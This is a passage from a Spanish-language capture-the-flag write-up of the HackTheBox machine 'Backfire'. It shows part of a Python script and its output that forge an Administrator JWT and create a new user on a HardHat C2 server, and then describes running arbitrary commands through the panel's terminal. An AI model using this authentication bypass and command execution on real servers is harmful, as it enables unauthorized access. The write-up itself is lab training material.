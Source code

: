 ```python
  "password": "gzzcoo",
  "role": "TeamLead",
  "username": "gzzcoo"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```
{% endcode %}

Al ejecutar el `Bypass.py`, verificamos que en un principio hemos logrado crear un usuario llamado `gzzcoo`.

```bash
❯ python Bypass.py
/home/kali/Desktop/HackTheBox/Linux/Backfire/content/Bypass.py:12: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
Generated JWT:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJIYXJkSGF0X0FkbWluIiwianRpIjoiM2RlYjdhZTMtNDcwMC00ZGQ4LTkzMjUtYjI2ZmQ1Mjk0ZjQ2IiwiaHR0cDovL3NjaGVtYXMueG1sc29hcC5vcmcvd3MvMjAwNS8wNS9pZGVudGl0eS9jbGFpbXMvbmFtZWlkZW50aWZpZXIiOiIxIiwiaXNzIjoiaGFyZGhhdGMyLmNvbSIsImF1ZCI6ImhhcmRoYXRjMi5jb20iLCJpYXQiOjE3Mzc0NDc4MjcsImV4cCI6MTczOTg2NzAyNywiaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93cy8yMDA4LzA2L2lkZW50aXR5L2NsYWltcy9yb2xlIjoiQWRtaW5pc3RyYXRvciJ9.hh6igOGH2iTKBfDc8XnwxF41Tq8nGB7VGMnif8xmADQ
/usr/local/lib/python3.12/dist-packages/urllib3/connectionpool.py:1099: InsecureRequestWarning: Unverified HTTPS request is being made to host '127.0.0.1'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
User gzzcoo created
```

Probaremos de autenticarnos en el panel de `HardHat C2` y comprobamos que hemos logrado obtener el acceso correspondiente.

<figure><img src="../../../../.gitbook/assets/imagen (207).png" alt=""><figcaption></figcaption></figure>

### HardHatC2 Remote Code Execution (RCE)

En el mismo blog en el cual nos mencionaban diferentes vulnerabilidades, se nos informaba que una vez obtenido un usuario nuevo creado con permisos de Admin, podríamos llegar a explotar un Remote Code Execution (RCE).

Para ello, debeemos acceder a[https://127.0.0.1:7096/ImplantInteract](https://127.0.0.1:7096/ImplantInteract) y dispondremos de una opción llamada "Terminal·" en la cual podemos ejecutar comandos arbitrarios.

Al probar dicha funcionalidad, comprobamos que el usuario que ejecuta el comando se trata de `sergej`.

<figure><img src="../../../../.gitbook/assets/imagen (208).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation
